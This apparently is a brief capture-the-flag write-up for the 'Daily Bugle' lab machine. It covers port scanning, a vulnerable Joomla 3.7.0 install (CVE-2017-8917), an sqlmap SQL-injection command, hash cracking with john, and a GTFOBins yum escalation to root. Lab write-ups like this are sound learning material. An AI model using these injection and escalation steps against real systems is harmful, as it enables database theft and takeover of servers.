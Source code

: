 # Daily Bugle

## Reconnaissance

IP addr : 10.10.102.159

## Scanning & Enumeration

### Nmap Scan

open port are : 22(ssh), 80(http), 1084(?), 3306(mysql)

### Http Enumeration

- Joomla CMS
  
#### Jooscan

result [here](joomscan.log)

Joomla version 3.7.0 witch is vulnerable to [CVE-2017-8917](https://www.exploit-db.com/exploits/42033)

## Exploitation

### Let exploit it

#### with sqlmap

```bash
 sqlmap -u "http://10.10.102.159/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Don't work very well

#### With python

End up using [this exploit](https://github.com/stefanlucas/Exploit-Joomla)

dump the credentials and crack the  bcrypt hash

```bash
dump the credentials and crack the [john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```

### User Shell

![User Shell](src/user-shell.png)

Using this[GTFObin](https://gtfobins.github.io/gtfobins/yum/)

we got the root shell

![root shell](src/root-shell.png)